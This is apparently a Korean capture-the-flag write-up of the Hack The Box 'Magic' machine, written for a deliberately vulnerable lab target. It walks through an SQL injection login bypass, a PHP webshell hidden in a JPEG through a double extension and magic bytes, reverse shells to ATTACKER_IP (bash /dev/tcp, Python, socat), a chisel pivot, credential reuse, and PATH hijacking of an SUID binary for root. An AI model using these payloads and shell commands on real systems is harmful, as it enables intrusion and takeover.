









**날짜:** 2020년 6월 15일 / 문서 번호 D20.100.76
**작성자:** bertolis
**머신 제작자:** TRX
**난이도:** 쉬움 (Easy)
**분류:** 공식 (Official)

### 개요 (Synopsis)
Magic은 커스텀 웹 애플리케이션을 특징으로 하는 쉬운 난이도의 Linux 머신이야. 로그인 폼의 SQL 인젝션(SQL injection) 취약점을 악용하여 로그인을 우회하고 업로드 페이지에 접근할 수 있어. 취약한 화이트리스트 검증을 통해 PHP 웹 쉘(webshell)을 업로드할 수 있으며, 이를 사용해 명령 실행 권한을 얻게 돼. MySQL 데이터베이스에서 평문 자격 증명이 발견되고, 이는 수평적 권한 이동(lateral movement)을 위해 재사용되지. 경로 하이재킹(Path hijacking) 벡터와 시스템에 부여된 SUID 권한을 결합하면 시스템을 완전히 장악할 수 있어.

### 요구 기술 (Skills Required)
* PHP에 대한 기본 지식
* Linux 열거 (Linux Enumeration)

### 습득 기술 (Skills Learned)
* 기본 SQL 인젝션
* PHP 파일 업로드 화이트리스트 우회
* 경로 하이재킹 (Path Hijacking)
* SUID 악용

---

## 열거 (Enumeration)

### Nmap
```bash
ports=$(nmap -p- --min-rate=1000 -T4 -Pn TARGET_IP | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV TARGET_IP
```

```text
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu protocol 2.0)
| ssh-hostkey:
|   2048 06:04:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:06:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nmap 출력을 보면 이 머신은 기본 포트에서 OpenSSH와 Apache 서버가 실행 중인 Ubuntu Linux 머신임을 알 수 있어.

### Apache
80번 포트의 사이트로 이동하면 아래와 같은 페이지가 나타나.


이미지 갤러리가 보이고, 하단에 있는 Login 버튼을 클릭하면 로그인 페이지로 이동하지.


하지만 `admin` / `password` 나 `admin` / `admin` 같은 흔한 자격 증명은 작동하지 않아.

### Gobuster
웹 서버를 열거하여 다른 파일이나 디렉터리를 호스팅하고 있는지 확인해 보자.

```bash
gobuster dir -u TARGET_IP -w /usr/share/dirb/wordlists/common.txt -x php
```

```text
/assets (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
/index.php (Status: 200)
/login.php (Status: 200)
/logout.php (Status: 302)
/server-status (Status: 403)
/upload.php (Status: 302)
```

`upload.php`로 이동하면 로그인 화면으로 리디렉션돼. Gobuster 출력을 보면 `images` 디렉터리도 발견되는데, 웹사이트의 성격을 생각하면 잠재적으로 흥미로운 부분이야. 이 하위 디렉터리를 추가로 열거해 보면 `uploads` 폴더를 발견할 수 있어. 이 정보는 나중을 위해 저장해 두자.

```bash
gobuster dir -u TARGET_IP/images -w /usr/share/dirb/wordlists/common.txt -x php
```

```text
/uploads
```

우리는 SQL 인젝션을 통해서 로그인 페이지 우회를 시도해 볼 수 있어. 로그인 폼의 Username과 Password 필드는 `' or 1=1-- -` 와 같은 기본적인 페이로드를 사용하면 SQL 인젝션에 취약하다는 것을 알 수 있지.


예상대로, 이미지를 업로드할 수 있는 페이지에 접근할 수 있게 돼.


---

## 초기 침투 (Foothold)

PHP 리버스 쉘 업로드를 시도해 볼 수 있지만, 웹사이트가 특정 파일 형식만 허용하기 때문에 실패하게 돼.


애플리케이션 로직이 업로드되는 파일의 확장자가 jpeg, jpg 또는 png인지 확인하는 것 같아. Apache 문서에 따르면 파일은 여러 확장자를 가질 수 있고 그 순서는 보통 중요하지 않아. 여러 확장자를 가진 파일이 미디어 타입(media-type)과 핸들러(handler) 둘 다에 연결되면, 결과적으로 핸들러와 연결된 모듈이 해당 요청을 처리하게 되지.

예를 들어, `.php` 확장자는 `application/x-httpd-php` 핸들러에, `.jpg` 확장자는 `image/jpeg` 미디어 타입에 매핑되어 있는 `test.php.jpg`라는 파일이 있다고 해보자. 그러면 `application/x-httpd-php` 핸들러가 사용되어 PHP 파일로 처리될 거야.

이러한 설정은 공개 업로드 디렉터리에서 사용자가 여러 확장자를 가진 파일을 생성할 수 있을 때 보안 문제를 일으킬 수 있어. 서버가 `.phar`, `.php` 또는 `.phtml` 파일만 실행하도록 허용하는 아래와 같은 `.htaccess` 파일 구성을 생각해 보자.

```apache
<FilesMatch ".+\.ph(ar|p|tml)$">
    SetHandler application/x-httpd-php
</FilesMatch>
```

이건 안전해. 최신 버전의 Apache는 이런 공격에 대비해 보안이 강화되어 있거든. 하지만 때때로 정규 표현식(regular expression)이 잘못 구성되어 Apache 서버가 이런 공격에 취약해지는 경우가 있어. 아래 구성은 취약하다고 볼 수 있지. 이 경우 줄의 끝을 나타내는 `$`가 정규식에서 빠져 있기 때문에, `.php.jpg` 파일도 PHP 핸들러와 연결되어 버려.

```apache
<FilesMatch ".+\.ph(ar|p|tml)">
    SetHandler application/x-httpd-php
</FilesMatch>
```

이걸 악용해서 간단한 PHP 웹 쉘을 만들어 보자.

```bash
echo '<?= $_GET[0] ?>' > webshell.php.jpg
```

업로드를 시도해 보면...


성공하지 못했어. 추가적인 검증 기법이 적용되어 있는 것 같아. 파일의 매직 바이트(magic bytes)를 확인하는 게 흔히 쓰이는 방법이지. PHP에서는 아래 코드 스니펫으로 이를 구현할 수 있어.

```php
if (exif_imagetype('image.gif') != IMAGETYPE_GIF) {
    echo 'The picture is not a gif';
}
```

매직 바이트는 파일의 유형을 식별하는 데 사용되며, 보통 파일의 맨 처음에 위치해. 어떤 파일들은 오프셋에 매직 바이트가 있기도 하고, 텍스트 파일 같은 일부 파일은 아예 매직 바이트가 없기도 해. 파일 시스템에 따라 매직 바이트의 위치가 다르기도 하지.

우리가 만든 PHP 파일에 JPG 형식의 매직 바이트를 추가하면 이 검증을 우회할 수 있을지도 몰라. JPG/JPEG 파일의 유효한 매직 바이트는 다음과 같아.

https://en.wikipedia.org/wiki/List_of_file_signatures

1. `FF D8 FF DB`
2. `FF D8 FF E0 00 10 4A 46 49 46 00 01`
3. `FF D8 FF EE`
4. `FF D8 FF E1 ???? 45 78 69 66 00 00`

우리 파일의 맨 앞에 이 바이트들을 추가해 보자.

```bash
echo 'FFD8FFDB' | xxd -r -p > webshell.php.jpg
echo '<?= $_GET[0] ?>' >> webshell.php.jpg
```

이번에는 업로드가 성공했어.


이전에 열거해 둔 `images/uploads` 디렉터리에 파일이 업로드되었는지 확인해 보자. 브라우저나 cURL을 사용해 `whoami` 명령을 실행해 보면 `www-data`로 머신에 초기 침투(foothold)했음을 알 수 있어.

```text
http://TARGET_IP/images/uploads/webshell.php.jpg?0=whoami
```


Netcat을 이용해 리스너를 열고 리버스 쉘을 얻어 보자. `bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1` 같은 간단한 bash 리버스 쉘 원라이너는 작동하지 않아. Python을 시도해 볼게.

웹 쉘에서 `which python` 명령을 입력하면 아무 결과도 없지만, `which python3`는 결과를 반환해.

```text
http://TARGET_IP/images/uploads/webshell.php.jpg?0=which python3
```


다음 Python 리버스 쉘 원라이너를 사용할 수 있어. IP 주소와 포트를 알맞게 변경해서 쓰면 돼.

```text
http://TARGET_IP/images/uploads/webshell.php.jpg?0=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```bash
$ nc -lvp 4444                                  
listening on [any] 4444 ...
TARGET_IP: inverse host lookup failed: Unknown host
connect to [ATTACKER_IP] from (UNKNOWN) [TARGET_IP] 39160
/bin/sh: 0: can't access tty; job control turned off
$ whoami 
www-data
```

다음 명령을 사용해 PTY 쉘을 생성할 수 있어.

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/Magic/images/uploads$
```

---

## 수평적 권한 이동 (Lateral Movement)

`/var/www` 웹 디렉터리에 있는 파일들을 열거해 보면 `Magic` 하위 디렉터리가 있고, 그 안에 `db.php5` 파일이 있어. 이 파일에는 데이터베이스 연결 자격 증명이 포함되어 있는 걸 확인할 수 있지.

```bash
www-data@ubuntu:/var/www/Magic$ cat db.php5
```

```php
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
<SNIP>
```

하지만 이 비밀번호로 `theseus` 사용자로 전환하려고 시도하면 인증에 실패해. MySQL 서버는 외부로 노출되어 있지 않고, 머신에 MySQL 클라이언트도 설치되어 있지 않아.

```bash
www-data@ubuntu:/var/www/Magic$ mysql
Command 'mysql' not found, but can be installed with:
<SNIP>
```

MySQL 포트(3306)를 포워딩해서 우리 클라이언트로 연결을 시도해 보자. 이를 위해 Chisel을 사용할 수 있어. `gzip -d chisel_1.7.0_linux_amd64.gz` 명령으로 압축을 풀고 원격 머신에 업로드해.

먼저 HTTP 서버를 시작해.

```bash
$ sudo python -m http.server 8080
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

그 다음, 아래 명령으로 바이너리를 다운로드해. (IP는 상황에 맞게 변경)

```bash
cd /tmp
wget http://ATTACKER_IP:8080/chisel_1.7.0_linux_amd64
```

chisel이 원격 머신에 업로드되었으니, 리버스 피벗(reverse pivot)을 수행하기 위해 로컬 머신에서 서버를 시작해야 해.

```bash
./chisel_1.7.0-rc8_linux_amd64 server -p 8000 -reverse
2020/08/27 22:15:29 server: Reverse tunnelling enabled
2020/08/27 22:15:29 server: Listening on [http://0.0.0.0:8000](http://0.0.0.0:8000)
```

원격 머신에서 다음 명령을 실행해 방금 시작한 chisel 서버에 연결해. 이렇게 하면 원격 머신의 localhost 3306 포트 트래픽이 우리 머신의 localhost 3306 포트로 포워딩돼.

```bash
chmod +x chisel_1.7.0-rc8_linux_amd64
./chisel_1.7.0-rc8_linux_amd64 client ATTACKER_IP:8000 R:3306:127.0.0.1:3306 &
```

마지막으로 `theseus` / `iamkingtheseus` 자격 증명과 함께 로컬의 mysql 클라이언트를 사용해 서버에 연결할 수 있어.

```bash
mysql -h 127.0.0.1 -P 3306 -u theseus -piamkingtheseus
```

```text
Welcome to the MariaDB monitor.
Server version: 5.7.29-0ubuntu0.18.04.1 (Ubuntu)
MySQL [(none)]>
```

`Magic`이라는 데이터베이스에 접근할 수 있어. 데이터베이스를 전환하고 테이블 목록을 확인해 보자.

```sql
show databases;
use Magic;
show tables;
```

`login`이라는 단일 테이블이 발견되었어. 포함된 데이터를 살펴보자.

```sql
select * from login;
```

```text
id | username | password
1  | admin    | Th3s3usW4sK1ng
```

`admin` 사용자의 평문 비밀번호가 드러났어. `Th3s3usW4sK1ng`라는 비밀번호를 재사용해서 `theseus` 계정으로 로그인할 수 있어.

```bash
www-data@ubuntu:/tmp$ su theseus
Password: Th3s3usW4sK1ng
theseus@ubuntu:/tmp$
```

사용자 플래그는 `/home/theseus/user.txt`에 있어.

---

## 권한 상승 (Privilege Escalation)

다음 명령을 사용해 머신에 있는 SUID 파일들을 열거할 수 있어.

```bash
find / -perm -4000 -exec ls -l {} \; 2>/dev/null
```

```text
<SNIP>
-rwsr-x--- 1 root users 22040 Oct 21 2019 /bin/sysinfo
-rwsr-xr-x 1 root root  43088 Jan 8 10:31 /bin/mount
-rwsr-xr-x 1 root root  44664 Mar 22 2019 /bin/su
-rwsr-xr-x 1 root root  64424 Jun 28 2019 /bin/ping
```

결과 중에 매우 흥미로운 `/bin/sysinfo` 바이너리가 있어. SUID 비트 `s`는 이 프로그램이 root 권한으로 실행된다는 것을 보장해 줘. 이 바이너리를 실행하면 권한이 낮은 사용자는 일반적으로 접근할 수 없는 시스템 정보를 반환해.

```bash
theseus@ubuntu:/tmp$ sysinfo
```

```text
=======Hardware Info=======
<SNIP>
```

`strings` 명령을 사용해 바이너리에 포함된 출력 가능한 문자열들을 나열해 볼 수 있어. 이를 통해 시스템 정보를 가져오기 위해 어떤 명령들을 호출하는지 알 수 있지.

```bash
theseus@ubuntu:/tmp$ strings /bin/sysinfo
```

```text
<SNIP>
====================Hardware Info====================
lshw -short
====================Disk Info====================
fdisk -l
====================CPU Info====================
cat /proc/cpuinfo
====================MEM Usage====================
free -h
</SNIP>
```

`CPU Info` 섹션을 보면, 프로그램이 `/bin/cat /proc/cpuinfo` 대신 절대 경로 없이 `cat /proc/cpuinfo`를 사용하고 있는 걸 알 수 있어. `cat` 바이너리가 포함된 `/bin` 디렉터리는 사용자의 `PATH` 환경 변수에 포함되어 있어. `PATH` 변수는 시스템이 바이너리를 찾기 위해 검색해야 할 디렉터리들을 식별하는 데 사용돼. `PATH` 변수의 내용을 확인해 보자.

```bash
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

운영 체제는 첫 번째 디렉터리부터 시작해 차례대로 디렉터리들을 검색해. 우리 경우에는 OS가 가장 먼저 `/usr/local/sbin`을 검색할 거야. 만약 거기에 실행 파일이 없으면 다음 디렉터리에서 검색을 계속하는 식이지.

현재 사용자가 쓰기 권한이 있는 디렉터리를 `PATH` 변수에 추가함으로써 이러한 동작 방식을 악용할 수 있어. 사용자는 변수를 수정하고 디렉터리를 맨 앞에 추가할 수 있지. `/tmp` 디렉터리를 `PATH`에 추가해 보자.

```bash
export PATH=/tmp:$PATH
echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

`/tmp` 디렉터리가 `PATH`의 맨 앞에 추가되었어. 이 공격을 계속 진행하려면 미리 컴파일된 버전의 `socat`을 업로드해야 해.

```bash
python -m SimpleHTTPServer 8080
```

다음 명령을 실행하여 바이너리를 다운로드해 (IP는 알맞게 수정).

```bash
wget [http://ATTACKER_IP:8080/socat](http://ATTACKER_IP:8080/socat)
chmod +x socat
```

`socat`을 사용해 로컬 머신으로 리버스 쉘을 보내는 간단한 bash 스크립트를 작성해 보자. 파일 이름을 `cat`으로 짓고 실행 가능하게 만들어.

```bash
echo "./socat tcp-connect:ATTACKER_IP:5555 exec:/bin/sh,pty,stderr,setsid,sigint,sane" > cat
chmod +x cat
```

마지막으로 `nc -lvp 5555`를 입력해 로컬 머신에 리스너를 열고, `sysinfo`를 다시 한 번 실행해. 이렇게 하면 `/usr/local/sbin/cat` 보다 `/tmp/cat`이 먼저 실행되어 우리가 만든 악성 스크립트가 실행돼.

```bash
nc -lvp 5555
listening on [any] 5555
connect to [ATTACKER_IP] from (UNKNOWN) [TARGET_IP] 50448
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root),100(users),1000(theseus)
```

루트 플래그는 `/root/root.txt`에 있어.

b982787e8da93862bc68711a96637e2a
